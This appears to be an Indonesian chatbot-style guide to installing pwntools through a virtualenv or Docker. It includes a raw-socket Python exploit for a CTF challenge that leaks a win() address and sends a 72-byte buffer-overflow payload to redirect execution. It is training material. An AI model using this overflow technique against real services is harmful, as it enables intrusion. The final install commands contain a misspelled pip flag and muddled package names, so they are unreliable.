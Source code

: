 Kalau kamu belum bisa install `pwntools` karena keterbatasan lingkungan, ada beberapa solusi tergantung sistem dan kondisimu. Aku jelaskan beberapa cara:

---

## 🛠️ 1. **Coba pakai Python Virtual Environment**

Kalau sistemmu tidak punya `pwntools` tapi bisa install Python packages, coba:

```bash
sudo apt update
sudo apt install python3 python3-pip python3-venv -y
```

 buat virtual environment
```bash
python3 -m venv venv  # atau bisa dengan `python3 -m venv pwnenv`
source venv/bin/activate  # atau `source pwnenv/bin/activate`
```

 install pwntools
```bash
pip install --upgrade pip
pip install pwntools
```

> Kalau berhasil, jalankan semua script eksploitasi dalam venv ini: `source pwnenv/bin/activate`

(below this are unnecessary)

## 🧪 2. **Coba di Docker (lebih bersih dan portable)**

Kalau bisa pakai Docker:

```bash
sudo apt install docker.io -y
sudo docker run -it --rm --name pwnbox -v $(pwd):/ctf --workdir /ctf python:3.10 bash

# Di dalam container:
pip install pwntools
```

> Semua script bisa kamu taruh di folder lokal (`$(pwd)`), dan akan muncul di `/ctf` dalam container.

---

## 🔧 3. **Coba manual tanpa pwntools (pakai Python + `socket`)**

Kalau benar-benar tidak bisa install apa pun, kamu masih bisa eksploitasi pakai script Python dasar:

```python
import socket
import time
import struct

def p64(val):
    return struct.pack("<Q", val)  # little-endian 64-bit

s = socket.create_connection(("moklet-sec.site", 10000))

def recv_until(prompt):
    data = b""
    while not data.endswith(prompt):
        data += s.recv(1)
    return data

# Step 1: kirim 'leboy' dan ambil alamat win()
recv_until(b"ask yobel : ")
s.send(b"leboy\n")
leak_line = s.recv(1024).decode()
print("[+] Leak line:", leak_line)
win_addr = int(leak_line.strip(), 16)
print("[+] Win address:", hex(win_addr))

# Step 2: quit dan konfirmasi
recv_until(b"ask yobel : ")
s.send(b"quit\n")
recv_until(b"are you sure Y/N?")
s.send(b"Y\n")

# Step 3: exploit dengan payload overflow
recv_until(b"kata kata sebelum solve bang : ")
payload = b"A" * 72 + p64(win_addr)
s.send(payload + b"\n")

# Step 4: baca output (semoga flag!)
while True:
    try:
        print(s.recv(4096).decode(), end="")
    except:
        break

s.close()
```

> Script ini adalah versi **tanpa pwntools**, pakai `socket` dan `struct` biasa. Tetap bisa jalan asal tahu offset overflow-nya.

---

Jika berhasil, instal dengan menyalin command-command ini:
```bash
sudo apt install gdb pip
pip install pwn pwntools pwndbg --break-systempackages
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
ls
./setup.sh
```
